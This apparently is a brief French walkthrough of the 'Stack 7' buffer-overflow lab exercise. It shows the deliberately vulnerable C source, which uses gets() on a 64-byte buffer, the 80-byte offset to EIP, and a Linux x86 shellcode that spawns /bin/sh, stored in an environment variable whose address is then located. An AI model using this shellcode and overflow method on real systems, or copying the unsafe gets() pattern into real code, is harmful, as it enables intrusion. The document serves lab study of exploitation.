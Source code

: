 # Stack 7 #

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}

```

C'est à peu de chose près la même chose que le code précédent.

Le contrôle d'EIP se fait après 80 octets.

J'utilise l'instruction ret à la même adresse que stack6.

Une variable d'environnement va être utilisée pour stocker le shellcode.

```bash
export SHELLCODE=`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`

Puis obtentions de l'adresse

/tmp/getenv SHELLCODE ./stack7
SHELLCODE will be at 0xbffff97b
```
